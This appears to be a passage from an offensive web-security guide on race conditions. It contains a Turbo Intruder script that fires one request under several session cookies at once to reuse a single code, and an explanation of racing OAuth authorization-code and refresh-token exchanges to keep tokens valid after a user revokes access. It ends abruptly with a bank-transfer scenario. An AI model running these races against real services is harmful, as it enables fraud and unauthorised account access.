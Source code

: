 ### **Using the same code from different accounts**

**If the previously proposal didn't work (try to use the same code several times from the same account) you try a variant:Try t use the same code from different accounts:**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

### OAuth2 eternal persistence

There are several [**OAUth providers**](https://en.wikipedia.org/wiki/List\_of\_OAuth\_providers). Theses services will allow you to create an application and authenticate users that the provider has registered. In order to do so, the **client** will need to **permit your application** to access some of their data inside of the **OAUth provider**.\
So, until here just a common login with google/linkdin/github... where you aer prompted with a page saying: "_Application \<InsertCoolName> wants to access you information, do you want to allow it?_"

#### Race Condition in `authorization_code`

The **problem** appears when you **accept it** and automatically sends a **`authorization_code`** to the malicious application. Then, this **application abuses a Race Condition in the OAUth service provider to generate more that one AT/RT** (_Authentication Token/Refresh Token_) from the **`authorization_code`** for your account. Basically, it will abuse the fact that you have accept the application to access your data to **create several accounts**. Then, if you **stop allowing the application to access your data one pair of AT/RT will be deleted, but the other ones will still be valid**.

#### Race Condition in `Refresh Token`

Once you have **obtained a valid RT** you could try to **abuse it to generate several AT/RT** and **even if the user cancels the permissions** for the malicious application to access his data, **several RTs will still be valid.**

John wants to transfer 100 dollars that he has in his account to Peter. He goes to the Transfers tab, enters Peter’s nickname, and “100” into the field with the amount of funds to be transferred. Next, he clicks on the Transfer button. The data is sent to the web application.

What is happening inside? What does the programmer need to do for everything to work correctly?
